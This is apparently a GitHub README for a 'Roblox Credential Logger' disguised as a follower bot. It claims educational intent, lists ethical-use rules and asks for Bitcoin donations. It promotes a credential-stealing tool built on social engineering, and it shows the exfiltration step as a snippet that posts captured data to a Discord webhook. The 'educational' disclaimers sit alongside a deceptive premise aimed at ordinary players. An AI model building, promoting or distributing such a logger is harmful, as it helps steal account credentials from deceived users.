 
# Roblox Credential Logger (Educational Purposes)

![Terminal Preview](https://imgur.com/a/UE6YfJn)  
*This is how it looks like*

## 📜 Description
A Python-based demonstration of how credential logging attacks can be disguised as legitimate tools. This **educational proof-of-concept** simulates a "Roblox Follower Bot" while showcasing security risks.

```python
# Example of the webhook integration (simplified)
def send_to_webhook(data):
    requests.post(WEBHOOK_URL, json=data) # Educational purposes only
```

## ⚠️ Critical Disclaimer
**This project is for:**
- Security research
- Ethical hacking demonstrations  
- Defensive programming education

**Using this maliciously violates:**
- Discord's [Terms of Service](https://discord.com/terms)
- Roblox's [Community Standards](https://en.help.roblox.com/hc/articles/203313410)
- Potentially computer crime laws in your region

## 🛠️ Technical Details

### Features
| Component | Purpose |
|-----------|---------|
| `colorama` | Terminal coloring |
| `requests` | Webhook simulation |
| Typewriter FX | Social engineering element |
| Fake botting | Simulated activity |

### Installation
```bash
pip install -r requirements.txt
# requirements.txt:
requests==2.31.0
colorama==0.4.6
```

## 💰 Support the Developer
If you find this educational content valuable:  
**BTC:** `bc1q35kav7ushle28kdwa28gr534glx9twuswywjlk`  
*All contributions support future research projects.*

## 🔒 Ethical Use Guidelines
1. Only test on systems you own
2. Never deploy without explicit permission
3. Disclose webhook usage if demonstrating
4. Review local laws before use

---

*Last updated: May 20 2025*  

---

